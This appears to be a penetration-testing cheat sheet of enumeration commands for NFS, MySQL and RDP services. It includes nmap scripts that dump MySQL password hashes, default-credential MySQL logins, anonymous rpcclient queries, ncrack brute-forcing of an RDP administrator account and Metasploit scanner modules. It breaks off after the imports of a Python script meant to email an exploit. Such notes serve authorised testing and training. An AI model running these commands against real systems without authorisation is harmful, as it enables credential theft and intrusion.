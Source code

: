 ## Port 111 (NFS)

`apt-get install nfs-common`

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.205.140
showmount -e <ip>
mkdir /tmp/nfs
mount -t nfs <ip>:<share> /tmp/nfs
```
- More commands
- 
```bash
rpcinfo -p 10.11.1.111
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
 ```

## Port 3306 (MYSQL)
- Enumeration commands for `MySQL` service;

```bash
nmap -n -v -sV -Pn -p 3306 --script=mysql-info,mysql-audit,mysql-enum,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-users,mysql-query,mysql-variables,mysql-vuln-cve2012-2122 192.168.1.10
mysql --host=192.168.1.10 -u root -p
mysql -u admin -padmin -c "show databases;set database mysql;select* from users;"  

# Remote access
mysql -u admin -padmin -h <ip>
```
        
 ## Port 3389  (RDP)
 
Enumeration commands for Remote Desktop service;

    ncrack -vv --user administrator -P passwords.txt rdp://192.168.1.10,CL=1
    rdesktop 192.168.1.10

### Metasploit Modules for Remote Desktop service;

    auxiliary/scanner/rdp/ms12_020_check
    auxiliary/scanner/rdp/rdp_scanner 

## Sending email with python exploit in it
            
        from email.mime.multipart import MIMEMultipart
        from email.mime.text import MIMEText
        import smtplib
        import sys
